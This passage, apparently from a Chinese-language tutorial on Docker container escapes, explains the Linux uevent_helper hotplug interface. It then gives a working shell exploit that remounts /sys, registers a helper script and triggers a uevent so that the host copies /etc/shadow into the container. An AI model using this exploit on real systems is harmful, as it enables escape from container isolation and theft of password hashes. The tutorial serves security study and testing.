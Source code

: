 ![](media/16423261310936/16446822121742.jpg)
    命令正常被执行

## sysfs相关逃逸方法

### sysfs介绍

### 利用/sys/kernel/uevent_helper

#### uevent_helper介绍

在linux中提供了udev和mdev这两个使用uevent机制处理热插拔问题的用户空间程序，udev基于netlink机制，依赖于系统启动的deamon进程systemd-udevd，这个进程监听内核发送的uevent信息去执行热拔插操作，mdev是基于uevent_helper机制，提供了/proc/sys/kernel/hotplug和/sys/kernel/uevent_helper接口用于设置对应的处理程序地址

#### EXP

不同的linux发行版使用的uevent机制是不同的，centos使用udev机制，所以没有/proc/sys/kernel/hotplug和/sys/kernel/uevent_helper接口，这里使用ubuntu 20.04.3进行测试`docker run -it --cap-add=SYS_ADMIN --security-opt=apparmor:unconfined ubuntu`

```shell
mount -o rw,remount /sys
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/bash' > /tmp/test.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/test.sh
chmod +x /tmp/test.sh
echo $host_path/tmp/test.sh > /sys/kernel/uevent_helper
echo change > /sys/class/mem/null/uevent
cat /shadow
```

